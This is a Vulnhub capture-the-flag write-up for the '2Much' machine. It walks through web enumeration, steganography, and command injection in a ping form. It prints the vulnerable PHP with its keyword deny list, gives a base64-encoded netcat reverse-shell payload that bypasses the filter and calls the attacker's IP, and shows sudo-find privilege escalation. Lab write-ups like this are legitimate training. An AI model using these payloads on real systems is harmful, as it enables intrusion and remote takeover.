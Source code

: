 ```yaml
---
layout: post
title: Vulnhub - 2Much writeup
date: 2019-02-01 8:00 PM
---
```


## Nmap

![](images/noname/nmap.png)

We see only one port is open so that is what we are going to enumerate more

***

## HTTP

![](images/noname/website.png)

It's very simple and plain website. I started gobuster scan on it to see if we can find any hidden directory.

![](images/noname/gobuster.png)

We can see that there is `/admin`. And if we open that page we see some images:

![](images/noname/admin.png)

And in the comment I found a phassphrase

![](images/noname/pass.png)

When I saw that it said `passphrase` and the webpage had some image file I knew it right away that in one of these files we'll find something hidden. So I tried all the images and found something in `haclabs.jpeg`(the one with spiderman on it)

I used the following command to extract the file from the image:
```bash
steghide --extract -sf haclabs.jpeg -p harder
```

![](images/noname/extract.png)

And this gave me `imp.txt`. That file had a base64 encoded string which gave me a name of file called `superadmin.php`

![](images/noname/b64.png)

When we open that page we see a utility that takes IP as an input and pings it. Now obviously we can test this input for `RCE`.
After some trial I was able to execute command using `|` i.e if we enter `127.0.0.1 | whoami` it will give us `www-data`.

![](images/noname/rce.png)

Before I tried to get the reverse shell I tried to read the source of the `superadmin.php` to see what all command is restricted.

```
127.0.0.1 | cat superadmin.php
```

![](images/noname/source.png)

```php
?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>


</pre>
```
We can see that there are some commands that are not allowed at all. So we can use `nc.traditional` to get a reverse shell but the issue with that would be `nc` string would still be detected. So to bypass this I simply base64 encoded the following payload:

```bash
nc.traditional -e /bin/bash 192.168.1.125 4444
```

And then sent the following command in that IP box

```
127.0.0.1 | `echo "bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS4xMjUgNDQ0NAo=" | base64 -d`
```
![](images/noname/rev.png)

***

## Privilege escalation

I ran my enumeration script but couldn't find anything in that. So I started to look around manually. In `/home/yash` I found `flag1.txt` which said that we need to find some hidden file.

![](images/noname/flag1.png)

I used the `find` command to find the hidden file.

![](images/noname/hidden.png)

and then found the password for `haclabs` account.

![](images/noname/passwd.png)

`haclabs:haclabs1234`

as we noticed that in `haclabs` there was a file named `.sudo_admin...` that means there are some sudo rights for `haclabs` so after I `su` to that account I ran `sudo -l` to see what he's allowed to run.

![](images/noname/sudo.png)

as we can see he can run `find` command as root. We can use [gtfo](https://github.com/mzfr/gtfo) to search gtfobins from terminal.

![](immages/noname/gtfo.png)

Now using the `sudo` trick we can get root shell.

![](images/noname/root-shell.png)

![](images/noname/root.png)

***

That's it for now.

Thanks for reading, feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
